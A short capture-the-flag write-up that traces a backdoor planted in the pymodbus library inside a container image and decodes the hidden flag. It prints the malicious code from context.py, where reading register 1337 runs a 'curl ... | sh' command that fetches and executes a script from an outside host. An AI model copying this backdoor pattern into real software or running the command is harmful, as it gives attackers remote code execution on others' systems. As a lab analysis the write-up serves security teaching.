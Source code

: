 # Task-14: Backdoored Bus

the goal was to search for a backdoor in the continer. our interest is /blobs/sha256 directory which stores content-addressable binary data (layers, images, and manifests) identified by their SHA-256 hashes.


```bash                                                                                                                      
┌──(kali㉿kali)-[~/…/modbus-container-final-1750975076803(1)/blobs/sha256/merged_fs]
└─$ ls
app  bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var

```

**I started the search in the pymodbus module**

```bash
ls -lt usr/local/lib/python3*/site-packages/pymodbus/
total 296
-rw-r--r-- 1 kali kali  8596 Jun 26 17:14 bit_read_message.py
-rw-r--r-- 1 kali kali  9205 Jun 26 17:14 bit_write_message.py
drwxr-xr-x 4 kali kali  4096 Jun 26 17:14 client
-rw-r--r-- 1 kali kali  3440 Jun 26 17:14 compat.py
-rw-r--r-- 1 kali kali  7485 Jun 26 17:14 constants.py
drwxr-xr-x 4 kali kali  4096 Jun 26 17:14 datastore
-rw-r--r-- 1 kali kali 23243 Jun 26 17:14 device.py
-rw-r--r-- 1 kali kali 29260 Jun 26 17:14 diag_message.py
-rw-r--r-- 1 kali kali  6382 Jun 26 17:14 events.py
-rw-r--r-- 1 kali kali  3691 Jun 26 17:14 exceptions.py
-rw-r--r-- 1 kali kali 12413 Jun 26 17:14 factory.py
-rw-r--r-- 1 kali kali 14237 Jun 26 17:14 file_message.py
drwxr-xr-x 3 kali kali  4096 Jun 26 17:14 framer
-rw-r--r-- 1 kali kali   899 Jun 26 17:14 __init__.py
-rw-r--r-- 1 kali kali  8363 Jun 26 17:14 interfaces.py
drwxr-xr-x 3 kali kali  4096 Jun 26 17:14 internal
-rw-r--r-- 1 kali kali  7939 Jun 26 17:14 mei_message.py
-rw-r--r-- 1 kali kali 14969 Jun 26 17:14 other_message.py
-rw-r--r-- 1 kali kali 17009 Jun 26 17:14 payload.py
-rw-r--r-- 1 kali kali  7966 Jun 26 17:14 pdu.py
drwxr-xr-x 2 kali kali  4096 Jun 26 17:14 __pycache__
-rw-r--r-- 1 kali kali 12958 Jun 26 17:14 register_read_message.py
-rw-r--r-- 1 kali kali 12058 Jun 26 17:14 register_write_message.py
drwxr-xr-x 5 kali kali  4096 Jun 26 17:14 repl
drwxr-xr-x 4 kali kali  4096 Jun 26 17:14 server
-rw-r--r-- 1 kali kali 22881 Jun 26 17:14 transaction.py
-rw-r--r-- 1 kali kali  7578 Jun 26 17:14 utilities.py
-rw-r--r-- 1 kali kali  1550 Jun 26 17:14 version.py
```

**The backdoor was Found in:**

```bash
s datastore                                          
context.py  database  __init__.py  __pycache__  remote.py  store.py
```

**context.py**
```py
...

 if fx == 3 and address == 1337:
            import os
            os.system("curl -s 54484d7b6234636b6430307233645f70796d30646275357d.callmeback.com| sh")
....
```
any attacker scanning Modbus registers and reading from address `1337` could gain access.


```bash
echo "54484d7b6234636b6430307233645f70796d30646275357d" | xxd -r -p
THM{b4ckd00r3d_pym0dbu5}   
```
